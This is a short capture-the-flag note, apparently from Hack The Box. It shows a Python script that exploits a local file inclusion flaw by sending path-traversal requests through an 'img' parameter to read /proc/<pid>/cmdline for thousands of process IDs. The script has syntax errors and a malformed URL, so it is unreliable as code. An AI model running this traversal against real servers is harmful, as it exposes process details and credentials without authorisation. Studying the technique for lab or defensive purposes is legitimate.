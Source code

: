 ### Hack The Box - LFI - enumuration over /proc/(number)/cmdline

Whilst the path can change for local file inclusion the majority of the time its the same files your interested in.

/proc/(number)/cmdline - this path can be very helpful wehn you havnt yet got terminal access to a box, it may be possible to see processes that are running on the box with local file inclusion if the vurnrability exists on the box.
  
### proc_cmdline.py
  
```python
import requests

host = "test.htb"
path = host + "vurn.php?img=../../../../../../../../../"

headers = {
    'Host': host',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

i=1
while i < 10000
    response = requests.get(path + 'proc/'+str(i)+'/cmdline',headers=headers,verify=False,)
    if response.text:
        print (str(i),response.text)
    i = i + 1  
```
